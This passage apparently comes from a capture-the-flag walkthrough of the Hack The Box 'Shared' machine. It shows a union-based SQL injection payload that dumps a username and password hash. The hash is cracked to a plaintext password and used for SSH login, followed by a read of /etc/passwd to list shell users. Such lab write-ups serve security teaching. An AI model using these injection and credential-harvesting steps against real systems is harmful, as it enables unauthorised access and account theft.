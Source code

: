 So there is a table user, now we can try to find the usernames: 

`{"' and 0=1 union select 1,username,2 from checkout.user-- -":"1"}`

![Untitled](/assets/img/posts/htb-shared/Untitled%207.png)

And we can try to get the password associated with this user:

![Untitled](/assets/img/posts/htb-shared/Untitled%208.png)

Which is a hash: fc895d4eddc2fc12f995e18c865cf273 

We first try crackstation to see if this hash has already been cracked, which it is: 

![Untitled](/assets/img/posts/htb-shared/Untitled%209.png)

So the password for user james_mason is Soleil101. 

We use these to get ssh access!

```bash
$ ssh james_mason@10.10.11.172 
james_mason@shared:~$ whoami
james_mason
james_mason@shared:~$ hostname -I
10.10.11.172 
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
james_mason@shared:~$
```

There doesn’t seem to be a user.txt flag, so this is probably not the correct user we need. We can check what users have access to a console:

```bash
james_mason@shared:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
james_mason:x:1000:1000:james_mason,,,:/home/james_mason:/bin/bash
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash
```
